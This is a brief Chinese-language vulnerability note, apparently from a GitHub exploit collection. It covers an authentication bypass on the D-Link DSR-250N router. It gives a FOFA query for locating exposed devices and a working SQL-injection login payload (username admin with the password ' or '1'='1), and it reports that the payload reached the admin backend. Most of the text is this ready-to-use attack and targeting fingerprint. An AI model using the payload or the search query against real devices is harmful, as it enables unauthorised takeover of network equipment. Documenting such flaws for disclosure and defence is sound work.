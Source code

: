 # D-Link-DSR-250N-万能密码漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

> [!NOTE]
>
> D-Link DSR-250N

## FOFA

> [!NOTE]
>
> app="D_Link-DSR-250N"

## 漏洞复现

登录页面如下

![image-20210609175053339](D-Link-DSR-250N-万能密码漏洞.assets/1627363614610163.jpg)

```
user: admin
pass: ' or '1'='1
```

成功登录后台

![image-20210609175150907](D-Link-DSR-250N-万能密码漏洞.assets/16273636148934422.jpg)